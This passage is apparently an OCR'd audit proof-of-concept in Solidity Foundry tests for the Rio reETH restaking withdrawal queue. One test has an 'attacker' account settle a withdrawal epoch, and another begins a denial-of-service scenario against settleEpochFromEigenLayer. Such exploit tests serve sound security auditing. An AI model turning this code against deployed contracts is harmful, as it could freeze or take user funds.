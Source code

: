 ```solidity
        assertEq(reETH.token.totalSupply(), ETH_DEPOSIT_SIZE);
        verifyAndProcessWithdrawalsForValidatorIndexes(operatorDelegator, validatorIndices);

        // Settle the withdrawal epoch.
        uint256 withdrawalEpoch = reETH.withdrawalQueue.getCurrentEpoch(ETH_ADDRESS);
        IDelegationManager.Withdrawal[] memory withdrawals = new IDelegationManager.Withdrawal[](1);
        withdrawals[0] = IDelegationManager.Withdrawal({
            staker: operatorDelegator,
            delegatedTo: address(1),
            withdrawer: address(reETH.withdrawalQueue),
            nonce: 0,
            startBlock: 1,
            strategies: BEACON_CHAIN_STRATEGY.toArray(),
            shares: withdrawalAmount.toArray()
        });

        vm.prank(attacker);
        reETH.withdrawalQueue.settleEpochFromEigenLayer(ETH_ADDRESS, withdrawalEpoch, withdrawals, new uint256[](1));

        // Assert epoch summary details.
        IRioLRTWithdrawalQueue.EpochWithdrawalSummary memory epochSummary =
            reETH.withdrawalQueue.getEpochWithdrawalSummary(ETH_ADDRESS, withdrawalEpoch);
        assertTrue(epochSummary.settled);
        assertEq(epochSummary.assetsReceived, withdrawalAmount);
        assertEq(epochSummary.shareValueOfAssetsReceived, withdrawalAmount);

        // Claim and assert withdrawal.
        uint256 balanceBefore = address(this).balance;
        uint256 amountOut = reETH.withdrawalQueue.claimWithdrawalsForEpoch(
            IRioLRTWithdrawalQueue.ClaimRequest({asset: ETH_ADDRESS, epoch: withdrawalEpoch})
        );
        IRioLRTWithdrawalQueue.UserWithdrawalSummary memory userSummary =
            reETH.withdrawalQueue.getUserWithdrawalSummary(ETH_ADDRESS, withdrawalEpoch, address(this));

        assertTrue(userSummary.claimed);
        assertEq(amountOut, withdrawalAmount);
        assertEq(address(this).balance - balanceBefore, withdrawalAmount);
    }

    function test_DOS_settleEpochFromEigenLayer() public {
        uint8 operatorId = addOperatorDelegator(reETH.operatorRegistry, address(reETH.rewardDistributor));
        address operatorDelegator = reETH.operatorRegistry.getOperatorDetails(operatorId).delegator;

        // Deposit ETH, rebalance, and verify the validator withdrawal credentials.
        uint256 depositAmount = ETH_DEPOSIT_SIZE - address(reETH.depositPool).balance;
        reETH.coordinator.depositETH{value: depositAmount}();

        console.log(reETH.withdrawalQueue.getCurrentEpoch(ETH_ADDRESS));
        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS);
        uint40[] memory validatorIndices = verifyCredentialsForValidators(reETH.operatorRegistry, 1, 1);

        // Request a withdrawal and rebalance.
        uint256 withdrawalAmount = 16 ether;
        reETH.coordinator.requestWithdrawal(ETH_ADDRESS, withdrawalAmount);
        skip(reETH.coordinator.rebalanceDelay());

```
